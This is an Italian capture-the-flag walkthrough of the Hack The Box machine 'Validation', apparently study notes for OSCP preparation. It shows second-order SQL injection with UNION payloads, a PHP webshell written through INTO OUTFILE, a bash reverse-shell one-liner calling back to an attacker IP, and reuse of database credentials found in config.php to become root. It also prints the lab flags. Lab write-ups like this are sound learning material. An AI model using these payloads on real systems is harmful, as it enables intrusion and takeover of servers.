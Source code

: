 **Target: 10.10.11.116**

# INFORMATION GATHERING

Per prima cosa lanciamo un scan veloce con [Nmap](Note/Tool/Nmap.md) per vedere quali porte e quali servizi 
girano sulla macchina 

```bash
┌──(root㉿kali)-[/home/kali/htb/validation]
└─# nmap -sC -sV -O -p- --min-rate=5000 10.10.11.116
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-15 06:35 EDT
Warning: 10.10.11.116 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.116
Host is up (0.044s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp    open     http           Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
2902/tcp  filtered netaspi
2963/tcp  filtered iph-policy-adm
3750/tcp  filtered cbos-ip-port
4566/tcp  open     http           nginx
|_http-title: 403 Forbidden
5000/tcp  filtered upnp
5001/tcp  filtered commplex-link
5002/tcp  filtered rfe
5003/tcp  filtered filemaker
5004/tcp  filtered avt-profile-1
5005/tcp  filtered avt-profile-2
5006/tcp  filtered wsm-server
5007/tcp  filtered wsm-server-ssl
5008/tcp  filtered synapsis-edge
8060/tcp  filtered aero
8080/tcp  open     http           nginx
|_http-title: 502 Bad Gateway
26108/tcp filtered unknown
37123/tcp filtered unknown
40549/tcp filtered unknown
46120/tcp filtered unknown
56352/tcp filtered unknown
57395/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/15%OT=22%CT=1%CU=33394%PV=Y%DS=2%DC=I%G=Y%TM=64B276A
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.39 seconds
```

Abbiamo 4 porta aperte

- 22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
- 80/tcp    open     http           Apache httpd 2.4.48
- 4566/tcp  open  http           nginx
- 8080/tcp  open  http           nginx

Partiamo ad enumerare la porta 80

# ENUMERTION

Visitiamo la pagina web, ci troviamo di fronte ad un pagina di registrazione 

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator1.png)

Proviamo a registrare un utente,

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator.png)

Vediamo che ci restituisce una pagina /account.php, il .php ci suggerisce che la webapp utilizzi php come linguaggio.
Notiamo anche l'input inserito precedentemente viene visualizzato in /account.php
Potrebbe suggerisci una SQLinjection
Proviamo ad inserire il payload '-- - 

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/validatro2.png)
Non otteniamo nessun informazione.

Proviamo a vedere la richiesta trammite burp.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator3.png)
Vediamo che abbiamo anche il campo `country` in cui possiamo provare una SQLinjection.
Priviamo a mettere il payload ' nel campo `country`

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator5.png)

Questa è una SQL injection di secondo ordine.

Posso immaginare che la query SQL sulla pagina assomigli a:

```
SELECT username from players where country = '[input]';
```

Un'iniezione UNION è quando aggiungo un'istruzione UNION alla query che mi consente di creare una nuova query e aggiungere i risultati alla query desiderata. Dovrò far corrispondere lo stesso numero di colonne o la query darà un errore. Inizierò con UNION SELECT 1 del Brasile;-- -. Ciò renderebbe la query:
```
SELECT username from players where country = 'Brazil' UNION SELECT 1;-- -';
```

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator6.png)
Vadiamo che la query funziona.
Proviamo ad aggiungere il 2 per vedere se abbiamo due collonne.

```
' UNION select 1,2-- -
```

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator7.png)
Ci restituisce un errore, quindi possiamo ipotizzare che abbiamo 1 solo colonna.

Ora che sappiamo come manipolare la query enumeriamo ulteriormente il database.

Con ' UNION @@version-- - vediamo con che tipo di database abbiamo a che fare.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator8.png)
Il database è MariaDB 10.5.11

vediamo che utente siamo con ' UNION user( )-- -
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator9.png)
Siamo uhc@localhost
Vediamo se il nostro utente ha i permessi FILE, se cosi fosse avremmo i permessi di lettura e scrittura sul server. Questo ci consentirebbe di caricare una webshell.

con `' UNION SELECT super_priv FROM mysql.user-- -` vediamo se abbiamo i privilegi di admin e quindi anche i permessi FILE

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator10.png)

Ci resituisce Y che sta per yes quindi siamo admin, questo significa abbiamo i permessi per leggere scrivere sul server non ci cresta che caricare un webshell.

Utilizziamo

' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- - 

come payload 

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator11.png)
Ci restituisce errore ma dovrebbe ever funzionato 
Visitiamo /shll.php  e con  `?cmd=id` vediamo che abbiamo la nostra webshell

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Validator12.png)

Vediamo di aver una revshell più stabile.
Ricarichiamo la pagina e la intercettiamo sempre con burp. Cambiamo metodo di richiesta da GET a POST e nel campo cmd= andiamo ad inserire la nostra revshell.

```
bash -c 'bash -i >& /dev/tcp/10.10.14.19/1234 2>&1
```

codifichiamo in URL 

```
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.19/1234+0>%261'
```

Ci mettiamo in ascolto con nc 

```
┌──(root㉿kali)-[/home/kali/htb/validation]
└─# nc -lvp 1234
listening on [any] 1234 ...

```

Otteniamo cosi la nostra revshell

```bahs
┌──(root㉿kali)-[/home/kali/htb/validation]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.116] 38776
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/var/www/html$
```

# PRIVESC

Diamo un occhiata al contenuto della directory in cui troviamo 

```bash
www-data@validation:/var/www/html$ ls
ls
account.php
config.php
css
index.php
js
rabbit.php
www-data@validation:/var/www/html$

```

Vediamo il file config.php sembra essere interessante, ispezziniamolo

```bash
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
www-data@validation:/var/www/html$
```

Sembrano essere delle credenziali.
Spesso è una brutta abitudine quella di riutilizzare la stessa password per più servizi
Proviamo ad utilizzare queste credenziali per avere i privilegi root

```bash
www-data@validation:/var/www/html$ su root
su root
Password: uhc-9qual-global-pw
id
uid=0(root) gid=0(root) groups=0(root)
```

BINGO!

Flag user

```bash
www-data@validation:/home/htb$ cat user.txt
cat user.txt
bfd1a1084cbc889e9eb76a83c69d4650
```

Flag root

```bash
cat root.txt
9c8d44249b70ef81ac143e9ec9b45b6c
```